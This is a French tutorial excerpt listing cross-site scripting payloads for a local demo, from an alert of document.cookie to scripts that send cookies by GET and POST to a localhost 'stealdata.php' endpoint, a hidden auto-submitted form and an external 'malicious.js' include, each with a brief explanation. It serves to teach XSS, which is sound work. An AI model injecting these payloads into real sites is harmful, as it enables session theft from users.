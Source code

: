 ```html
<script>
    alert(document.cookie);
</script>
```

**Explication :** Ce script affiche les cookies de l'utilisateur dans une alerte.

#### Scripts intermédiaires

- **Vol de cookies (simulé) :**

```html
<script>
    var img = new Image();
    img.src = 'http://localhost/demo2/stealdata.php?cookie=' + document.cookie;
</script>
```

**Explication :** Ce script envoie les cookies de l'utilisateur à l'URL spécifiée via une requête GET.

- **Envoi des cookies par POST :**

```html
<script>
    var xhr = new XMLHttpRequest();
    xhr.open('POST', 'http://localhost/demo2/stealdata.php', true);
    xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    xhr.send('cookie=' + encodeURIComponent(document.cookie));
</script>
```

**Explication :** Ce script envoie les cookies de l'utilisateur à l'URL spécifiée via une requête POST.

- **Création d'un formulaire caché pour vol de données :**

```html
```html
<form id="stealData" action="http://localhost/demo2/stealdata.php" method="post">
    <input type="hidden" name="data" value="Sensitive Data">
</form>
<script>
    document.getElementById('stealData').submit();
</script>
```

**Explication :** Ce script crée et soumet un formulaire caché contenant des données sensibles.

#### Scripts avancés

- **Exécution d'un script externe :**

```html
<script src="http://localhost/demo2/malicious.js"></script>
```

**Explication :** Ce script inclut et exécute un fichier JavaScript externe.
